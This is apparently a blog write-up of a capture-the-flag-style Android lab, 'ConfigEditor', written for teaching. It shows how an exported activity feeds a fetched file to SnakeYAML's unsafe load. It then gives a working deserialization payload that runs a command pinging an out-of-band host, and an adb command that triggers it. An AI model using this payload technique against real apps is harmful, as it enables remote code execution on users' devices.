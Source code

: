 ```yaml
---
date: '2024-07-30T21:39:58+05:30'
cover:
    image: "images/cover.png" 
    alt: "some image that didn't load"
    caption: "Mobile Hacking Lab - ConfigEditor"
    responsiveImages: false
tags: ["Android", "Mobile", "CTF"]
keywords: ["mobile", "android"]
description: "Mobile Hacking Lab - ConfigEditor"
showFullContent: true
readingTime: true
title: 'Learning Android Pentesting: Mobile Hacking Lab ConfigEditor'
showFullContent: true
readingTime: true
draft: false
showToc: true
tocOpen: true
showReadingTime: true
hideSummary: true
---
```


Since that past few weeks, I've been going through the free [Android Application Security course by Mobile Hacking Lab](https://www.mobilehackinglab.com/course/free-android-application-security-course). I would recommend this to you if you are looking to get started with Android Application pentesting. They have great labs as well, which are excellent if you are looking to get your hands dirty. This blog is a writeup for one of their free labs - Config Editor.

The goal of the lab is to achieve Remote Code Execution by exploiting vulnerabilities in a third party library.

# Analyzing the Application

First things firt, I decompiled the application with JADX-GUI. Looking at the AndroidManifest.xml file, I notice that the application only has one activity, called the `MainActivity`. This activity is exported and hence can be invoked directly.
![Android Manifest Exported Activity](images/android-manifest.png)

Going through the MainActivity class, I started by looking at the `onCreate` function, as that would be our entry-point to this activity.
![MainActivity onCreate handler](images/oncreate-handler.png)

This function sets up the application UI, event handlers for buttons, and then finally passes control to the `handleIntent` function.
![Call to handleIntent](images/call-to-handleintent.png)

HandleIntent is where the fun begins. This function extracts the data and action from the Intent, which is then passed to the `loadYaml` method.![Data is passed to loadYaml](images/pass-to-loadyaml.png)

The `loadYaml` function reads the file provided through the intent data. The contents of this file are then deserialized using the `yaml.load` function.
![Insecure Yaml Load Sink](images/yaml-load-sink.png)

This is our sink. All YAML functionality in this application is provided via the snakeyaml library, as seen in the imports of the `MainActivity` class.
![Imports SnakeYaml](images/imports-snakeyaml.png)

Also observe that there is a nice gadget provided to us to execute commands:
![gadget](images/gadget.png)

# Executing the Exploit

Host a `exploit.yml` file with the following content via the python HTTP server. Replace the domain name with another payload from interactsh/burp-collaborator or similar.
```yaml
some_var:
  !!com.mobilehackinglab.configeditor.LegacyCommandUtil
  ["ping hfjbgzlukkcfmdxzfkjzd9k17nkd241lt.oast.fun"]
```
Launch the `MainActivity` and pass the action flag with the value `android.intent.action.VIEW` and the data flag with the URL to your file hosted over the python HTTP server.
```bash
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d http://192.168.1.19:8000/exploit.yml
```

Observe that you receive a hit on your HTTP server.
![Hit is received](images/hit.png)

Observe that a hit is also received on interactsh, proving remote code execution.
![interactsh hit](images/interactsh.png)

# Conclusion

This lab teaches us that third-party libraries can introduce vulnerabilities within your applications. It is important to analyze dependencies both from an offensive as well as defensive perspective to keep the end user safe.